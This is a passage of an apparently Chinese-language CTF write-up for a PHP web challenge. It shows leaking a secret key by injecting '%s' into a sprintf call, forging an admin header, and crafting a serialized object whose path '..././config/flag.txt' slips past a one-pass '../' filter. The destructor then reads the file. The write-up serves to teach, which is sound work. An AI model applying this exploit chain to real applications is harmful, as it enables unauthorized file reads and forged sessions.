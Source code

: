 ```
                $data = sprintf($data,$v);
            }
            parent::response($data,"Welcome");
        }
```
我们注意到此处函数涉及到key值的操作，其中sprintf为占位符替换函数。  
如果我们post的nickname值里存在%s 那么key值也会随着输出。  
先获得cookie值，记得header头加上`didictf_username: admin`  
![](https://i.loli.net/2019/04/18/5cb774ca8eb5c.png)  
将cookie替换，post内容:`nickname=a---%s`  
得到key:`EzblrbNS`，至此大工告成。  
![](https://i.loli.net/2019/04/18/5cb774ca92d3c.png)  
理清下思路：  
+ 1.新建Application类，修改path变量为`..././config/flag.txt`(../进行过一次过滤)  
+ 2.将类加入$userdata数组进行序列化处理
+ 3.返回key加密后的cookie
+ 4.getflag

本地搭建php环境：
将以下源码复制访问 即可生成序列化数据：
```
<?
Class Application {
    var $path = '';


    public function response($data, $errMsg = 'success') {
        $ret = ['errMsg' => $errMsg,
            'data' => $data];
        $ret = json_encode($ret);
        header('Content-type: application/json');
        echo $ret;

    }

    public function auth() {
        return true;

    }
    private function sanitizepath($path) {
    $path = trim($path);
    $path=str_replace('../','',$path); 
    $path=str_replace('..\\','',$path);
    return $path;
}

public function __destruct() {
	$this->response($this->user_agent);
    if(empty($this->path)) {
		$this->response("error111");
        exit();
    }else{
        $path = $this->sanitizepath($this->path);
        if(strlen($path) !== 18) {
            exit();
        }
        $this->response($data=file_get_contents($path),'Congratulations');
    }
    exit();
}
}

```